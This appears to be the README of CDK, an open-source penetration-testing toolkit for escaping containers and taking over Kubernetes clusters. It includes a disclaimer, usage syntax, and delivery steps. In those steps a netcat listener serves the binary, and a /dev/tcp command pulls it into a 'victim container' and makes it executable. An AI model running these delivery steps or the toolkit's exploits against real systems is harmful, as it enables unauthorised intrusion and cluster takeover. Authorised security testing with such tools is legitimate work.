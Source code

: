 
# CDK - Zero Dependency Container Penetration Toolkit

English | [简体中文](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

![png](https://static.cdxy.me/20201203170308_NwzGiT_Screenshot.jpeg)

## Legal Disclaimer

Usage of CDK for attacking targets without prior mutual consent is illegal.
CDK is for security testing purposes only.

## Overview

CDK is an open-sourced container penetration toolkit, designed for offering stable exploitation in different slimmed containers without any OS dependency. It comes with useful net-tools and many powerful PoCs/EXPs helps you to escape container and takeover K8s cluster easily.

## Installation/Delivery

Download latest release in https://github.com/cdk-team/CDK/releases/

Drop executable files into the target container and start testing.

### TIPS: Deliver CDK into target container in real-world penetration testing

If you have an exploit that can upload a file, then you can upload CDK binary directly.

If you have an RCE exploit, but the target container has no `curl` or `wget`, you can use the following method to deliver CDK:

1. First, host CDK binary on your host with public IP.
```
(on your host)
nc -lvp 999 < cdk
```

2. Inside the victim container execute
```
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk
chmod a+x cdk
```

## Usage
```
Usage:
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk auto-escape <cmd>
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.

Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki

Auto Escape:
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.
```